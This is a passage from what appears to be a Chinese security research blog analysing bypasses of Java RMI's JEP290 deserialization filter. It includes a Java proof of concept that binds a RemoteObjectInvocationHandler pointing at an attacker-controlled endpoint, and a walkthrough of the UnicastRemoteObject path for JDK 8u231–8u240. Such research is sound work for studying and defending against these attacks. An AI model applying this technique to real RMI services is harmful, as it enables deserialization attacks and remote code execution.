 ```java
public class bypassJEP {
    public static void main(String[] args) throws Exception {
        // 创建一个Endpoint对象，指定恶意主机和端口号
        Endpoint endpoint = new TCPEndpoint("127.0.0.1",9999);
        // 封装为一个LiveRef对象
        LiveRef liveRef = new LiveRef(new ObjID(new Random().nextInt()), endpoint, false);
        // 封装为UnicastRef对象
        UnicastRef unicastRef = new UnicastRef(liveRef);
        // 封装为白名单的RemoteObjectInvocationHandler对象
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(unicastRef);
        // 拿到RegistryStub对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        registry.bind("bypass", handler);
    }
}
```

看到请求发过来了

![image-20250309110155341](https://gitee.com/ling-x5/img/raw/master/image-20250309110155341.png)

> 我这里版本应该是比较高，[RMI-JEP290 的分析与绕过](https://www.anquanke.com/post/id/259059) 文章中有提到，
>
> 在 8u231 版本及以上的 DGCImpl_Stub#dirty 方法中多了一个 setObjectInputFilter 的过程，又会被 JEP290 check 到了 。

![image-20250309110643820](https://gitee.com/ling-x5/img/raw/master/image-20250309110643820.png)

所以我这里服务器还是过滤掉了

![image-20250309110715613](https://gitee.com/ling-x5/img/raw/master/image-20250309110715613.png)

有兴趣的师傅，可以下载对应的 jdk 版本，进行复现调试一下

### 8u231-8u240

其实绕过的思路都是相似的，从白名单下手

这次找到了 UnicastRemoteObject，看他的 readObject()方法

![image-20250309140834880](https://gitee.com/ling-x5/img/raw/master/image-20250309140834880.png)

跟进去看一下

![image-20250309141005837](https://gitee.com/ling-x5/img/raw/master/image-20250309141005837.png)

是一个导出对象的操作，我们在恶意代码里设置 ssf (RMIServerSocketFactory) , 让他进入第二个分支

继续跟进一下 exportObject 方法

![image-20250309141629951](https://gitee.com/ling-x5/img/raw/master/image-20250309141629951.png)

这里封装进了 UnicastServerRef2() 里面，其实就是封装进了一个 LiveRef，然后有调用了 super 也就是 UnicastServerRef 的构造方法

![image-20250309141948588](https://gitee.com/ling-x5/img/raw/master/image-20250309141948588.png)
